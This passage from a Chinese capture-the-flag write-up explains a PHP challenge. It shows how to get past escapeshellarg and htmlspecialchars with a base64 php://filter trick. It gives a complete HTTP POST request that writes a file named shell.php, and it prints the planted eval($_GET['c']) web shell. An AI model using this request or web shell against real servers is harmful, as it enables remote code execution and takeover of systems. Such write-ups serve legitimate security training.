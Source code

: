 ```php
```



#### 解决方法

注意到有个 `escapeshellarg($domain)`，功能如下： 

1.确保用户只传递一个参数给命令
2.用户不能指定更多的参数一个
3.用户不能执行不同的命令

`htmlspecialchars()`

- ENT_HTML401 - 默认。作为 HTML 4.01 处理代码。
- ENT_QUOTES - 编码双引号和单引号。

```
& (AND) => &
" (双引号) => " (当ENT_NOQUOTES没有设置的时候) 
' (单引号) => ' (当ENT_QUOTES设置) 
< (小于号) => < 
> (大于号) => >
```

对于前头这些字符串

```
; &lt;&lt;&gt;&gt; DiG 9.9.5-9+deb8u15-Debian &lt;&lt;&gt;&gt; -t A -q
```

符合base64规范的字符是：

```
ltltgtgtDiG9959deb8u15DebianltltgtgttAq 
```

恰好是40位，为4的倍数，就不用管这个，只需要添加我们的字符串。因为插入的字符在中间，所以不能有 `=`

```php
POST / HTTP/1.1
Host: php
Upgrade-Insecure-Requests: 1

domain=PD9waHAgZXZhbCgkX0dFVFsnYyddKTs/Pg&log=://filter/write=convert.base64-decode/resource=shell.php/.
```

成功写入一句话

```php
<?php eval($_GET['c']);?>
```



## 4.easy - phplimit

> PHP 代码执行限制绕过
